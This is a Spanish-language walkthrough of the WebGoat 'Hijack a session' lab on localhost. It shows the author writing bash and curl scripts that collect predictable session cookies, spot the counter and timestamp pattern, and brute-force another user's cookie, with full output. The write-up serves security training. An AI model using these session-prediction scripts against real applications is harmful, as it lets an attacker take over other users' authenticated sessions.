







# Writeup de WebGoat [A1] Hijack a session

## Concepto

Los desarrolladores de aplicaciones que crean sus propias IDs de sesión con frecuencia olvidan incorporar la complejidad y la aleatoriedad necesarias para la seguridad. Si la ID de sesión específica del usuario no es compleja y aleatoria, entonces la aplicación es altamente susceptible a ataques de fuerza bruta basados en sesiones.

## Objetivos

Obtener acceso a una sesión autenticada perteneciente a otra persona.

## Inicio WebGoat
⚠️ Recuerda que las peticiones por curl deben ser autenticadas por el servidor de WebGoat, por eso las peticioens deben ir con la cookie `JSESSIONID` de inicio de seisón que se nos otorga en <http://localhost:8080/WebGoat/login>. **No la confundas** con la cookie de este reto.
```bash
JSESSIONID=ltnhhpmxFIz0IJ_jkKiOK_kIEVQ6QRDCY6o-Apmm
```



## Login

Se nos presenta un formulario de login cuya respuesta de petición define una cookie con 'hijack_cookie':

> En esta lección estamos tratando de predecir el valor de 'hijack_cookie'. El 'hijack_cookie' se utiliza para diferenciar a los usuarios autenticados y anónimos de WebGoat.




## Replicación de petición con curl

Necesitamos obtener varias respuestas para analizar la cookie `hijack_cookie`. Para ello entre varias opciones nos vamos ir por *Bash scripting*. Para realizar peticiones HTTP utilizaremos `curl`. El comandoo exacto de `curl` lo podemos traer de obtener de diferentes maneras, una de ellas es con *Repeater* de Burp:



Primero limpiamos la petición de encabezados innecesarios



Luego copiamos el cURL de la petición



El comando y su respuesta quedaría así:

```bash
curl -i -s -k -X  'POST' \
 -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
 -H "Cookie: JSESSIONID=$JSESSIONID"  \
--data-raw $'username=foo&password=bar' \
'http://localhost:8080/WebGoat/HijackSession/login'
```
```plaintext
HTTP/1.1 200 OK
Connection: keep-alive
Set-Cookie: hijack_cookie=4745395612611419281-1686437952873; path=/WebGoat; secure
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Transfer-Encoding: chunked
Content-Type: application/json
Date: Sat, 10 Jun 2023 22:59:12 GMT

{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : null,
  "assignment" : "HijackSessionAssignment",
  "attemptWasMade" : true
}
```

Limpiamos el STDOUT de curl para solo obtenga la línea de `Set-Cookie`:

```bash
$ curl -i -s -k -X  'POST' \
	-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
	-H "Cookie: JSESSIONID=$JSESSIONID"  \
	--data-raw $'username=foo&password=bar' \
	'http://localhost:8080/WebGoat/HijackSession/login' \
	2>/dev/null | grep -i '^Set-Cookie:' 

Set-Cookie: hijack_cookie=4745395612611419285-1686438408012; path=/WebGoat; secure
```

Ahora con la magia de chatGPT filtramos la salida para solo obtener el valor de la cookie:

```bash
curl -i -s -k -X  'POST' \
	-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
	-H "Cookie: JSESSIONID=$JSESSIONID"  \
	--data-raw $'username=foo&password=bar' \
	'http://localhost:8080/WebGoat/HijackSession/login' \
	2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+'

4745395612611419285-1686438408012
```

Solo nos queda generar varias peticiones. Para ello, crearemos un `script.sh`:

```bash
#!/bin/bash
for i in {1..10}
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	echo $hijack_cookie
done
```

que podemos ejecutar con `./script.sh $JSESSIONID`

```plaintext
4745395612611419329-1686439552783
4745395612611419330-1686439552808
4745395612611419331-1686439552831
4745395612611419333-1686439552857
4745395612611419334-1686439552882
4745395612611419335-1686439552904
4745395612611419337-1686439552931
4745395612611419338-1686439552956
4745395612611419339-1686439552978
4745395612611419340-1686439553000
```

Notamos una especie de secuencia pero pdemos estar mas seguros con esto sacar diferencias en ambas partes

```bash
#!/bin/bash
parte1_tmp=0
parte2_tmp=0
limit=$2
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	parte2_tmp=$parte2
	echo "$parte1 ($diferencia1) + $parte2 ($diferencia2)"
done
```

Con `./script.sh $JSESSIONID 20` notamos que la primera recurrentemente aumenta una unidad y la segunda parte alrededor de 30 unidades. Esa distancia casi fija da pistas de que podemos estar tratando de marcas temporales:

```plaintext
4745395612611419515 (4745395612611419515) + 1686442228092 (1686442228092)
4745395612611419517 (2) + 1686442228116 (24)
4745395612611419518 (1) + 1686442228143 (27)
4745395612611419519 (1) + 1686442228168 (25)
4745395612611419520 (1) + 1686442228192 (24)
4745395612611419521 (1) + 1686442228217 (25)
4745395612611419522 (1) + 1686442228241 (24)
4745395612611419523 (1) + 1686442228276 (35)
4745395612611419524 (1) + 1686442228305 (29)
4745395612611419525 (1) + 1686442228348 (43)
4745395612611419527 (2) + 1686442228371 (23)
4745395612611419529 (2) + 1686442228392 (21)
4745395612611419530 (1) + 1686442228414 (22)
4745395612611419531 (1) + 1686442228438 (24)
4745395612611419532 (1) + 1686442228458 (20)
4745395612611419533 (1) + 1686442228513 (55)
4745395612611419534 (1) + 1686442228539 (26)
4745395612611419535 (1) + 1686442228559 (20)
4745395612611419537 (2) + 1686442228583 (24)
4745395612611419538 (1) + 1686442228604 (21)

```

Vamos analizar el comportamiento añadiendo un delay en las peticiones

```bash
#!/bin/bash
parte1_tmp=0
parte2_tmp=0
limit=$2
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	parte2_tmp=$parte2
	echo "$parte1 ($diferencia1) + $parte2 ($diferencia2)"
	sleep $3
done

```

Con el tercer argumento de `./script.sh $JSESSIONID 20 0.5` estamos definiendo en segundos el tiempo de espera, en este caso 500ms y este coincide con la diferencia de la segunda parte, así podemos estar casi seguros de que se trata de una marca temporal:

```plaintext
4745395612611419539 (4745395612611419539) + 1686442460475 (1686442460475)
4745395612611419541 (2) + 1686442461001 (526)
4745395612611419543 (2) + 1686442461526 (525)
4745395612611419544 (1) + 1686442462048 (522)
4745395612611419545 (1) + 1686442462575 (527)
4745395612611419546 (1) + 1686442463097 (522)
4745395612611419547 (1) + 1686442463624 (527)
4745395612611419548 (1) + 1686442464153 (529)
4745395612611419549 (1) + 1686442464677 (524)
4745395612611419551 (2) + 1686442465250 (573)
4745395612611419552 (1) + 1686442465779 (529)
4745395612611419553 (1) + 1686442466309 (530)
4745395612611419554 (1) + 1686442466835 (526)
4745395612611419555 (1) + 1686442467363 (528)
4745395612611419556 (1) + 1686442467888 (525)
4745395612611419557 (1) + 1686442468416 (528)
4745395612611419558 (1) + 1686442468937 (521)
4745395612611419559 (1) + 1686442469465 (528)
4745395612611419560 (1) + 1686442469992 (527)
4745395612611419561 (1) + 1686442470517 (525)

```

Y esta sospecha la confirmamos con `/script.sh $JSESSIONID 5 1`:

```plaintext
4745395612611419653 (4745395612611419653) + 1686443702616 (1686443702616)
4745395612611419655 (2) + 1686443703643 (1027)
4745395612611419657 (2) + 1686443704674 (1031)
4745395612611419659 (2) + 1686443705701 (1027)
4745395612611419661 (2) + 1686443706730 (1029)
```

Con la ultima parte intentamos convertir a hora legible buscando la primera herramienta que se nos atraviese:





¡Confirmado es una marca temporal! Ahora nos queda analizar la primera parte que sabemos no es totalmente aleatoria

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	

	parte1_tmp=$parte1
	parte2_tmp=$parte2	

	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
	  echo "$parte1 ($diferencia1) - $parte2"
	fi	
	sleep $3
done
```
Con `./script.sh $JSESSIONID 1000 0 2` notamos que no existe una salida con una diferencia mayor de dos unidades en 1000 iteraciones

```plaintext

```

Pero entonces ¿Por que aveces salta una unidad y por que aveces dos unidades? La ultima pista nos da una sugerencia:

> Sometimes, authorized users logs into the application.

Analicemos estas 4 cookies que salieron de 4 peticiones consecutivas:
1. hijack_cookie = 47453956126114195**48** + 1686442464150
2. hijack_cookie = 47453956126114195**49** + 1686442464160 
3. hijack_cookie = 47453956126114195**51** + 1686442465180 
4. hijack_cookie = 47453956126114195**52** + 1686442465790 

Entre la cookie \#2 y la cookie \#3 notamos que alguien tomó el secuencie que seguía 47453956126114195**50**... ese sería el usuario legítimo que logró autenticarse, y por ende ese sería la cookie que debemos robar. Ahora solo necesitamos adivinar cual es la marca temporal

1. hijack_cookie = 47453956126114195**48** + 1686442464150
2. hijack_cookie = 47453956126114195**49** + 1686442464160 
3. hijack_cookie = 47453956126114195**51** + 1686442465180 
4. hijack_cookie = 47453956126114195**52** + 1686442465790 

Así que necesitamos que nuestro códgio pare justo cuando encuentre una diferencia de 2:

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"			
	  	break
	else
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
$ ./script.sh $JSESSIONID 100 0 1
hijack_cookie=4745395612611424145(4745395612611424145)-1686454262797(1686454262797)
hijack_cookie=4745395612611424147(2)-1686454262818(21)! ¡Alguien estuvo antes!
¿hijack_cookie=4745395612611424146-?
```

Entre la marca temporal de \#2 y de \#3 hay 20 posibilidades eso quiere decir que debemos intentar esas 20 posibilidades:

```plaintext
4745395612611419550-1686442464161
4745395612611419550-1686442464162
4745395612611419550-1686442464163
...
4745395612611419550-1686442464177
4745395612611419550-1686442464178
4745395612611419550-1686442464179
```

Pues bueno podemos simplemente hacer un sencillo `for`

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"
		for i in $(seq 1 $((diferencia2_tmp)))
		do
			marca_temporal=$((parte2_tmp-i))
			hijack_cookie_temp="hijack_cookie=$parte1_aumt-$marca_temporal"
			echo "$hijack_cookie_temp"
		done		
	  	break
	else
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
$ ./script.sh $JSESSIONID 100 0 1
hijack_cookie=4745395612611424148(4745395612611424148)-1686454368028(1686454368028)
hijack_cookie=4745395612611424150(2)-1686454368048(20)! ¡Alguien estuvo antes!
¿hijack_cookie=4745395612611424149-?
hijack_cookie=4745395612611424149-1686454368047
hijack_cookie=4745395612611424149-1686454368046
hijack_cookie=4745395612611424149-1686454368045
hijack_cookie=4745395612611424149-1686454368044
hijack_cookie=4745395612611424149-1686454368043
hijack_cookie=4745395612611424149-1686454368042
hijack_cookie=4745395612611424149-1686454368041
hijack_cookie=4745395612611424149-1686454368040
hijack_cookie=4745395612611424149-1686454368039
hijack_cookie=4745395612611424149-1686454368038
hijack_cookie=4745395612611424149-1686454368037
hijack_cookie=4745395612611424149-1686454368036
hijack_cookie=4745395612611424149-1686454368035
hijack_cookie=4745395612611424149-1686454368034
hijack_cookie=4745395612611424149-1686454368033
hijack_cookie=4745395612611424149-1686454368032
hijack_cookie=4745395612611424149-1686454368031
hijack_cookie=4745395612611424149-1686454368030
hijack_cookie=4745395612611424149-1686454368029
hijack_cookie=4745395612611424149-1686454368028
```

Ahora solo nos queda hacer la petición con cada cookie hasta que obtengamos una respuesta positiva

```bash
#!/bin/bash
limit=$2
diff=$4
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))		

	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	diferencia2_tmp=$diferencia2

	parte1_tmp=$parte1
	parte2_tmp=$parte2	
	
	if [ $diferencia1 -gt $diff ] && (($parte1 != $diferencia1)); then
		echo "hijack_cookie=$parte1($diferencia1)-$parte2_tmp($diferencia2)! ¡Alguien estuvo antes!"
		parte1_aumt=$((parte1-1))
		hijack_cookie_temp="hijack_cookie=$parte1_aumt-?"
		echo "¿hijack_cookie=$parte1_aumt-?"
		for i in $(seq 1 $((diferencia2_tmp)))
		do
			marca_temporal=$((parte2_tmp-i))
			hijack_cookie_temp="hijack_cookie=$parte1_aumt-$marca_temporal"
			echo "$hijack_cookie_temp"
			salida=$(curl -v -s -k -X  'POST' \
			-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
			-H "Cookie: JSESSIONID=$1; $hijack_cookie_temp;"  \
			--data-raw $'username=foo&password=bar' \
			'http://localhost:8080/WebGoat/HijackSession/login')
			lessonCompleted=$(echo $salida | jq -r '.lessonCompleted')

			if ($lessonCompleted); then
				echo "Listo! la cookie era $hijack_cookie_temp"
				echo $salida | jq .
				else
				printf '\nNope!\n\n'
			fi
		done		
	  	break
	else
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
...

Nope!

hijack_cookie=4745395612611424128-1686452114652
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> POST /WebGoat/HijackSession/login HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded; charset=UTF-8
> Cookie: JSESSIONID=ltnhhpmxFIz0IJ_jkKiOK_kIEVQ6QRDCY6o-Apmm; hijack_cookie=4745395612611424128-1686452114652;
> Content-Length: 25
> 
} [25 bytes data]
* upload completely sent off: 25 out of 25 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: keep-alive
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< Transfer-Encoding: chunked
< Content-Type: application/json
< Date: Sun, 11 Jun 2023 02:55:16 GMT
< 
{ [198 bytes data]
* Connection #0 to host localhost left intact

Nope!

hijack_cookie=4745395612611424128-1686452114651
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> POST /WebGoat/HijackSession/login HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded; charset=UTF-8
> Cookie: JSESSIONID=ltnhhpmxFIz0IJ_jkKiOK_kIEVQ6QRDCY6o-Apmm; hijack_cookie=4745395612611424128-1686452114651;
> Content-Length: 25
> 
} [25 bytes data]
* upload completely sent off: 25 out of 25 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: keep-alive
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< Transfer-Encoding: chunked
< Content-Type: application/json
< Date: Sun, 11 Jun 2023 02:55:16 GMT
< 
{ [209 bytes data]
* Connection #0 to host localhost left intact
Listo! la cookie era hijack_cookie=4745395612611424128-1686452114651
{
  "lessonCompleted": true,
  "feedback": "Congratulations. You have successfully completed the assignment.",
  "output": null,
  "assignment": "HijackSessionAssignment",
  "attemptWasMade": true
}
```

¡Y listo! hemos realizado con éxito el *secuestro de sessión*.

Pero también tenemos dos opciones aparte de *bash scripting*

* El fuzzer de ZAP
* El Intruder de Burp

